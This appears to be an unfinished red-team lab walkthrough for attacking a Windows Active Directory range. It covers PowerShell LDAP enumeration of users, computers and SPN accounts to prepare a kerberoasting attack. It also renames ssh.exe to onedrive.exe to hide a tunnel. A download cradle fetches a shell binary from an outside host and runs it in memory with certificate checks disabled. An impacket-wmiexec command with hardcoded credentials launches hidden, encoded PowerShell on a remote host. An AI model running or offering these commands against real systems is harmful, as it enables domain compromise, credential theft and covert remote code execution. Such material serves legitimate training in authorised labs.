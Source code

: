# Advanced Enumeration

1. Remote from LIGHTEATER to the TWORIVERS.wheel.co machine using the wheel\macauthon | pw: Ch!ldr3nOfTheL1ght  acount.  This only works if you are in the security context of a domain user.  If you have system, you can also inject into a domain users process to assume that context, or impersonate.
   
2. Open powershell_ise.

![Open ISE](./powershell_ise.png)

3. `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`

$psISE.PowerShellTabs.Add()
$psISE.PowerShellTabs.SetSelectedPowerShellTab($psISE.PowerShellTabs[0])
$a = $psISE.PowerShellTabs[1].InvokeSynchronous("([adsisearcher]`'(&(objectCategory=user))`').findall()")
$a

![PS AD Enumeration](./powershell-enum.png)

1. Enumerate users and computers.
```
"([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"

([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json
```

1. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  

```
[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams
```
---------------tested to here for enumeraiton-------------

<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>

- 🎯 **Target:** it-user10

This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```

## Proxy Based Domain Enumeration:

6to4 proxy: Creates A rule.

or SSH Reverse Proxy. 

In a console: 
1. copy c:\Windows\system32\openssh\ssh.exe C:\ProgramData\onedrive.exe
2. C:\ProgramData\onedrive.exe <tunnel commands>
3. 


2. Prepare to enumerate the IT domain using a subsequent shell, pull back the information to your device and document so you are situationally aware. To do this, prepare another download cradle for the `shell.exe` binary. In contrast to the previous cradle, this will be used to download and invoke the shell in memory. Use the following command to base64 encode the cradle. 

```powershell
'try{[net.servicepointmanager]::servercertificatevalidationcallback={$true};[reflection.assembly]::load([net.webclient]::new().downloaddata("https://captainamerica.org/java/<path here>")).entrypoint.invoke(0,((,$null)));}catch{};'
```


```shell 
> proxychains -q impacket-wmiexec -ts -debug -nooutput -silentcommand $DOMAIN/$USER:$PASSWORD@172.23.1.80 \
'c:\windows\system32\wbem\wmic.exe /node:172.23.3.110 /user:"it-nakatomi##.local\webadmin" /password:"Vr6F#x@9c2" /privileges:enable process call create "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -ex b -w h -enc  <paste here>"'
```